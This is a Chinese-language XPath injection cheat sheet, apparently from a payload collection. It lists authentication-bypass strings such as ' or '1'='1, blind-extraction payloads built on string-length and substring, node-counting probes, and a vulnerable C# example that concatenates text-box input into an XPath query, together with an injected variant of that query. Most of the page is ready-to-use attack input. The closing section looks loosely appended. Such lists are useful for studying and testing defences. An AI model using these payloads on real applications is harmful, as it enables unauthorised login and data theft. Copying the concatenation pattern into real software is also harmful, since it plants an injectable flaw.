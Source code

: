 ＃ XPATH注入
XPath注入是一种攻击技术，用于利用从用户提供的输入中构建XPath（XML路径语言）查询来查询或导航XML文档的应用程序。

## 利用
类似于SQL : "string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"
```
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
```

## 盲注利用
```
1. 字符串长度
and string-length(account)=SIZE_INT

2. 提取一个字符串
substring(//user[userid=5]/username,2,1)=CHAR_HERE
substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
```


## Thanks to
* [OWASP XPATH Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [XPATH Blind Explorer](http://code.google.com/p/xpath-blind-explorer/)

expr = nav.Compile("string(//user[name/text()='"+TextBox1.Text+"' and password/text()='"+TextBox2.Text+"']/account/text())");

NoSuchUser'] | P | //user[name/text()='NoSuchUser

这将形成以下XPath查询:

string(//user[name/text()='Foobar'] | p | //user[name/text()='NoSuchUser' and password/text()='NoSuchPass']/account/text())

元素的属性数量是
count(path/attribute::*)
第N个属性名称是
(path/attribute::*[position()=N])

首先，我们需要知道各个子节点的数量：
count（path/child::node()）-给定路径的所有节点的计数。
count（path/child::text()）-文本字段子项的数量（最多1个）。
count（path/child::comment()）-注释节点的数量。
count（path/child::*）-元素子元素的数量。
count（path/child::processing-instruction()）-PI节点的数量。

计算字符串长度
' or string-length(//user[position()=1]/child::node()[position()=1])=4 or ''='
盲注
' or substring((//user[position()=1]/child::node()[position()=1]),1,1)="a" or ''='